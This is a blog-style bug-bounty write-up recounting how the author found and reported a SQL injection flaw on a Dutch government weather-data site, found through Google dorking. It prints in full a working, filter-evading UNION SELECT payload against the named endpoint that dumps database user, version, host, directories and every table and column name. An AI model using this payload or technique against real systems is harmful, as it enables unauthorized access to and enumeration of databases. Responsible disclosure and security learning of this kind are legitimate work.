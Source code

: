 ```yaml
---
title: "How I Found SQLI on a Dutch Government Website in 20 Minutes"
published: true
ayout: post
categories: [bounty]
tags: [bounty,SQL Injection] 
---
```



## Introduction

Assalamu Alaikum! This is Nasur Ullah. I’m currently an undergrad student and a passionate Webapp security learner from Pakistan.

This is my first write-up and I’ll be sharing how I found SQL Injection Vulnerability on a Dutch government website.



## Story


It was a sunny afternoon in 2020, and I was mindlessly scrolling through my Facebook feed when a particular post caught my eye. It was from my friend [Remonsec](https://twitter.com/remonsec) from Bangladesh Remonsec mentioned the possibility of earning swag from Dutch government Intrigued, I reached out to Remonsec to tell me about scope of Dutch government and the scope was Wildcard so i directly use google dork `php id= site:.knmi.nl`  I was able to uncover several endpoints associated with `KNMI.nl` One such endpoint caught my attention: https://eca.knmi.nl/utils/stationdetail.php?stationid=168. To assess its susceptibility to SQL injection, I inserted a single quote (') into the URL, prompting a site response that concealed certain images. This confirmed the presence of a SQL injection vulnerability.

![Remonsec](/assets/sqli/Remonsec.PNG)

Taking a manual approach, I endeavored to exploit the vulnerability further. After a few minutes of investigation and trial, I successfully executed an exploit, affirming the presence of the SQL injection flaw. I promptly reported my findings to `Dutch government` providing detailed information about the vulnerability and the steps to reproduce it.

## Final URL: ```https://eca.knmi.nl/utils/stationdetail.php?stationid=-168%27%20Union%20Select%20concat(%27%3Ccenter%3E%27,%27%3Cimg%20src=%22https://preview.ibb.co/mzji7p/39094260_106012140345838_338859137104347136_n.jpg%22%20height=%22300px%22%20width=%22300px%22%27,%27%3C/center%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22black%22%20size=%225%%22%3EInjected%20by%20.//D4RK%20!Nj3C70R++%27,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22red%22%3EUser::%20%20%20%20%20%20%27,user/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EVersion::%20%20%20%20%27,%27%3C/font%3E%27,version/**_**/(),%27%3Cbr%3E%27,%27%3Cfont%20color=%22green%22%3EDatabase::%20%20%20%27,%27%3C/font%3E%27,database/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EHost::%20%20%20%27,@@HOSTNAME,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3EDirectory::%20%20%20%20%20%20%27,@@BASEDIR,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3ESymlink::%20%20%20%20%27,@@HAVE_SYMLINK,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3ESSL::%20%20%20%27,@@HAVE_OPENSSL,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3C/br%3E%27,(select(@x)/*!50000from*/(/*!50000select*/(@x:=0x00),(select(0)/*!From*/(/*!50000information_schema.columns*/)/*!50000where*/(table_schema=database/**_**/())and(0x00)in(@x:=/*!50000coNcat*/%20(@x,0x3c62723e,/*!50000table_name*/,0x203a3a20,/*!50000column_name*/))))x)),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+```

I quickly made a proof of concept and reported it to them A one days later, I received an email from the Dutch government, thanking me for my contribution to their cybersecurity efforts. As a token of appreciation, they sent me a personalized package filled with swag, a tangible recognition of my valuable contribution.


## Key Takeaways

This experience underscores the effectiveness of employing Google dorking techniques, especially when dealing with wildcard scopes, to unearth potential vulnerabilities within target domains. Additionally, it emphasizes the importance of responsible disclosure and collaboration with security organizations to enhance online security.
